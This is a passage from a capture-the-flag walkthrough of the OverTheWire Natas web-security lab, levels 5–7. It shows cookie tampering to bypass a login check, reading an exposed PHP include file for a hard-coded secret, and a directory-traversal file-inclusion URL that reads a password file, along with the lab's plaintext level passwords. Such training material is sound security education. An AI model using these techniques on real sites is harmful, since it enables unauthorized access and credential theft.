 ```
Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
```

# Level 5

In this webpage, it shows that access is disallowed because we are not logged in.
This might indicate a lack of cookies/session.
When we view the cookies, we can see that the cookies `loggedin = 0`. This indicates that it is set to `False`.
So lets set it to `True` with `loggedin = 1`.

```
Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
```

# Level 6

In this webpage, we have to input a secret to get the password.
Upon clicking on the view source code, there is a php code within:

```
 <?
 include "includes/secret.inc";
   if(array_key_exists("submit", $_POST)) {
     if($secret == $_POST['secret']) {
     print "Access granted. The password for natas7 is <censored>";
   } else {
     print "Wrong secret";
   }
   }
 ?>
```

It seems like the code is linking to a relative path of `/include/secret.inc`, so let's view that page.

```
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```

Now, we just have to input the secret given.

```
Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
```

# Level 7

In this webpage, I noticed that there are links that accept php script as an input such as `<a href="index.php?page=about">About</a>`.
This indicates that there might be LFI vulnerability. So let's try using `http://natas7.natas.labs.overthewire.org/index.php?page=../../../../etc/natas_webpass/natas8`.
Voila, we have the password which is `DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe`.
